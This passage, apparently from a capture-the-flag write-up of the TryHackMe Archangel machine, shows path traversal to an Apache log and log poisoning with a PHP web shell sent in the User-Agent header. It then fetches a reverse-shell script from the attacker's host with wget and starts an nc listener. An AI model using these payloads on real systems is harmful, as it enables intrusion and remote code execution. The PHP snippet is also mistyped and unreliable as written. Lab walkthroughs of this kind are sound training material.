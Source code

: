```
http://mafialive.thm/test.php?view=/var/www/html/development_testing//..//..//..//..///var/log/apache2/access.log
```

![test-php-log](/assets/images/thm/archangel/test-php-log.png)

Very good, we can access the log file. Now to be able to add some code into the headres we can use Burp Suite. Turn the intercepter on and send the above request again and change the User-Agent header with the following code:


```php
<?php system($_GET['c'];)?>
```

![burp](/assets/images/thm/archangel/burp.png)

This code allows us to execute any commands on the server. From here we can start python server on our machine with php reverse shell code on it and we'll be able to download this script on the server. Let's do it... start the python server

```
python3 -m http.server
```

I have used the following script `https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php` (change the IP address with your attacking host)

Now we can download the script on the server using the following request

```
http://mafialive.thm/test.php?view=/var/www/html/development_testing//..//..//..//..///var/log/apache2/access.log&c=wget%20http://10.9.9.122:8000/rev.php
```

Once we download the script we can start a listener on our side to be able to get shell. 

```
nc -lvnp 1234
```
